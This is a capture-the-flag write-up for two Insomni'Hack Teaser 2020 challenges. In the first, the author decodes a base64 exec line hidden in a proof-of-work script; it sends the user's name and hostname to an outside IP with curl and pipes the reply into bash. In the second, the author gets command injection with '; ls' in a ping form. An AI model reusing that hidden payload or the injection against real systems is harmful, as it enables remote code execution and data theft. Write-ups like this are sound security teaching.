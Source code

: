 # Insomnihack Teaser

This was an extremely difficult CTF (by my standards) with a weight of ```52.33``` so I was only able to do two trivial challenges ```welcome``` & ```LowDeep``` and scored a rank of ```114```. I was trying for ```Kaboom``` & ```secretus``` as well, but wasn't able to do much within the time frame, will upsolve and post them here when done.

## warmup

### Welcome 36 pts.
>This year we added a Proof of Work to some of our challenges.
>
>Just run python pow.py <target>, were target is the value provided by the server and get the flag.

**pow.py**
```
#!/usr/bin/python3

import base64
import hashlib
import os
import sys 

target = sys.argv[1]
i = 0 

def pow():
    global i, target
    while True:
        m = hashlib.md5()
        m.update(str(i).encode())
        h = m.hexdigest()
        if h[:6] == target:
            exec(base64.b64decode('Z2xvYmFsIGk7aSs9MTMzNzt4PW9zLm5hbWU7eCs9Ii8kKHdob2FtaSlAJChob3N0bmFtZSl8YmFzaCJpZiB4IT0ibnQiZWxzZSIvJVVTRVJOQU1FJUAlVVNFUkRPTUFJTiUiO29zLnN5c3RlbSgiY3VybCAtTnMgMzQuNjUuMTg3LjE0MS8iK3gp'))
            print(i)
            exit(0)
        i += 1

if __name__ == '__main__':
    pow()
```

We see that there's a base64 encoded string which is being decode and executed.

```
$ echo Z2xvYmFsIGk7aSs9MTMzNzt4PW9zLm5hbWU7eCs9Ii8kKHdob2FtaSlAJChob3N0bmFtZSl8YmFzaCJpZiB4IT0ibnQiZWxzZSIvJVVTRVJOQU1FJUAlVVNFUkRPTUFJTiUiO29zLnN5c3RlbSgiY3VybCAtTnMgMzQuNjUuMTg3LjE0MS8iK3gp | base64 -d
global i;i+=1337;x=os.name;x+="/$(whoami)@$(hostname)|bash"if x!="nt"else"/%USERNAME%@%USERDOMAIN%";os.system("curl -Ns 34.65.187.141/"+x)
```

It sends our username and hostname to ```34.65.187.141``` and blocks us from getting the flag, even after getting the proof of work. So the solution is to simply comment out that line.

```
$ nc welcome.insomnihack.ch 1337

======================================================================
============   Welcome to the Insomni'Hack Teaser 2020!   ============
======================================================================

Give me an input whose md5sum starts with "f49122" and get the flag ;)
7319391

MITM are real: check SHA, check code, ...
```

```
$ python pow.py f49122
7319391
```

```INS{Miss me with that fhisy line}```

## web

### LowDeep 36 pts.

> Try out our new ping platform: lowdeep.insomnihack.ch/

The websites asks us to provide an IP address to ping. Instead of providing an IP address if we provide ```; ls``` we get the list of files in the current directory. One of the files is ```print-flag```.

![](lowdeep.png)

Downloading and running that file gives us the flag.

```
$ ./print-flag 
INS{Wh1le_ld_k1nd_0f_forg0t_ab0ut_th3_x_fl4g}
```
